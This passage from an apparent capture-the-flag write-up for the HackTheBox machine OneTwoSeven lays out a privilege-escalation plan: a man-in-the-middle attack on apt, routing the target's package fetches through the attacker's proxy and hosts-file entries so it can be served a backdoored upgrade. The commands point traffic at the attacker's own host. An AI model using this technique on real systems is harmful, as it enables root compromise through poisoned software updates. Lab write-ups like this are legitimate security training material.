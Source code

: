     W: Failed to fetch http://de.deb.devuan.org/merged/dists/ascii-updates/InRelease  Temporary failure resolving 'de.deb.devuan.org'
    W: Failed to fetch http://packages.onetwoseven.htb/devuan/dists/ascii/InRelease  Temporary failure resolving 'packages.onetwoseven.htb'
    W: Some index files failed to download. They have been ignored, or old ones used instead.
    

### Strategy

I’m going to use my ability to run `apt-get update` and `apt-get upgrade` as
root with a `http_proxy` environment variable I control to MitM the process.
I’ll host a proxy on my Kali box that will hijack the connection to
`packages.onetwoseven.htb` and point it to a server on my box. I’ll return a
backdoored version of some application as an upgrade, and use that to get
command execution and and root shell.

### MitM

To position myself to serve updates, I’ll need to tell OneTwoSeven to proxy
through me, and I’ll need a proxy and server waiting.

#### http_proxy

First I’ll tell OneTwoSeven to proxy http through me by exporting the
environment variable:

    
    
    www-admin-data@onetwoseven:/$ export http_proxy=http://10.10.14.7:8888
    www-admin-data@onetwoseven:/$ echo $http_proxy
    http://10.10.14.7:8888
    

#### proxy.py

I’ll use [proxy.py](https://github.com/abhinavsingh/proxy.py) as my proxy. I
can install it with `pip install --upgrade proxy.py`. Then I’ll run it,
telling it to listen on all IPs and giving it the port to listen on:

    
    
    root@kali# proxy.py --hostname 0.0.0.0 --port 8888
    2019-08-26 06:05:16,433 - INFO - run:633 - Starting server on port 8888
    

#### /etc/hosts

Were I to run `apt-get update` right now, the requests would come to my proxy,
where the requests for the three real Debian distros would proxy out to the
internet, and the requests for `packages.onetwoseven.htb` would die because my
host can’t resolve them. I want the three main ones to redirect off to
nowhere, and the custom one to point to my host. I’ll use the `hosts` file to
achieve that:

    
    
    127.0.0.1 packages.onetwoseven.htb
    192.0.2.1 de.deb.devuan.org
    